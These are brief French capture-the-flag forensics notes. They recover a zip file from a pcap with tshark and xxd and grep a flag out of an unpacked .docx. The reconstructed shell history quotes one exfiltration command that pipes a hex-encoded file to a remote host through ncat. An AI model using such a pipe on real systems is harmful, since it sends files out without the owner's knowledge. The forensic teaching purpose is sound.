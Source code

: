 
# Found a downloaded file in pcap

```sh
# retrouve les fichiers téléchargés
tshark -q -nr cap.pcap -z follow,tcp,ascii,0
        24
file Documents/flag.zip

63
Documents/flag.zip: Zip archive data, at least v2.0 to extract

        66
xxd -p Documents/flag.zip | tr -d '\n' | ncat 172.20.20.133 20200
```

On retrouve le deuxième fichier avec le deuxième flot TCP (1) :

```shell
$ tshark -q -nr cap.pcap -z follow,tcp,ascii,1

===================================================================
Follow: tcp,ascii
Filter: tcp.stream eq 1
Node 0: 172.20.20.132:35062
Node 1: 172.20.20.133:20200
464
504b0304140000000800a231825065235c39420000004700000008001c00666c61672e7478745554090003bfc8855ebfc8855e75780b000104e803000004e80300000dc9c11180300804c0bfd5840408bc33630356e00568c2b177ddef9eeb5a8fe6ee06ce8e5684f0845997192aad44ecaedc7f8e1acc4e3ec1a8eda164d48c28c77b7c504b01021e03140000000800a231825065235c394200000047000000080018000000000001000000a48100000000666c61672e7478745554050003bfc8855e75780b000104e803000004e8030000504b050600000000010001004e000000840000000000
===================================================================
```

On télécharge donc le fichier et on convertit avec xxd :

```sh
	$ tshark -o data.show_as_text:TRUE -r cap.pcap -Y "tcp.dstport == 20200" -T fields -e data.text  |xargs |xxd -r -p - |zmore
```


# Flag dans un fichier zip 

```shell
unzip 2021-fcsc-reglement_de_participation.docx -d doc 
# On cherche le fichier
grep -Ro "FCSC{.*}" doc/
```

